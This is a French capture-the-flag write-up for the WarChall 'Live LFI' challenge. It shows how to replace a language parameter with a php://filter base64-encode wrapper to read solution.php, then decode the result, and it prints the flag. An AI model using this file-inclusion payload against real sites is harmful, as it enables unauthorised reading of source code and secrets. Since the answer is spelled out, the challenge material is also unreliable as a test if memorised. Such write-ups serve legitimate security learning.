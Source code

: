 # Live LFI
Cette fois Live LFI Local File Inclusion, il y a des méthodes d'attaque de base NULL Byte Injection et path,
mais parmi les attaques appliquées, il y a une méthode d'attaque utilisant PHP Wrapper. Dans le cas de Warchall : Live LFI,
vous pouvez utiliser PHP Wrapper pour accéder au fichier en utilisant php://filter/convert.base64-encode/resource=solution.php

Le code "php://filter/convert.base64-encode/resource=solution.php" est une fonctionnalité de PHP qui permet de lire le contenu d'un fichier et de le convertir en base64.
Cela signifie que le contenu du fichier `solution.php` sera encodé en base64 avant d'être retourné.

En d'autres termes, si ce code est utilisé dans un contexte où une URL ou un chemin de fichier est attendu,
il peut être utilisé pour lire le contenu du fichier `solution.php` et le retourner sous forme encodée en base64.
Cela peut être utilisé pour contourner certaines restrictions d'accès aux fichiers ou pour manipuler le contenu des fichiers de manière non autorisée.

Etape à suivre : 
1. Allez dans le lien LFI (Local File Inclusion) principale => [LFI](https://lfi.warchall.net/)

2. Cliquer sur le logo de langue (choix de langue) => exemple : [LFI (langue)](https://lfi.warchall.net/index.php?lang=en)
3. Effacer `en`sur le lien et le *remplacer* par la methode d'attaque *PHP Wrapper* => (https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php)
4. après, il donne des plusieur code à decoder : **PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K**
5. Après decodage enligne sur [base64decode](https://www.base64decode.org/)
   
**Le resultat est là** : 

````sh<html>
<body>
<pre style="color:#000;">teh falg si naer!</pre>
<pre style="color:#fff;">the flag is near!</pre>
</body>
</html>
<?php                  #   YOUR_TROPHY 
return 'SteppinStones42Pie'; # <-´ ?>
````

 Solution : **SteppinStones42Pie**


